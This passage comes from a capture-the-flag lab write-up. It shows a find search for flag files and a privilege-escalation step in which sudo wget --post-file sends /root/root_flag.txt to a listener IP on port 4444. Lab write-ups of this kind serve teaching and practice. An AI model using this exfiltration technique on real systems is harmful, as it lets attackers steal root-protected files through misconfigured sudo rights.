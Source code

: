 </div>

We're in, try to find user.txt flag using find command:\


```bash
find / -type f -iname "*flag.txt" 2>/dev/null
```

<figure><img src=".gitbook/assets/image (42).png" alt=""><figcaption></figcaption></figure>

<details><summary>🚩 Flag 1 (user_flag.txt)</summary></details>

### Task 4 - user.txt?

We can do sudo -l command to discover user's permissions.











<figure><img src=".gitbook/assets/image (54).png" alt=""><figcaption><p>find IP and listen on port 4444</p></figcaption></figure>

```bash
sudo /usr/bin/wget http://10.9.80.228:4444 --post-file=/root/root_flag.txt
```

<figure><img src=".gitbook/assets/image (51).png" alt=""><figcaption></figcaption></figure>

<div align="left">
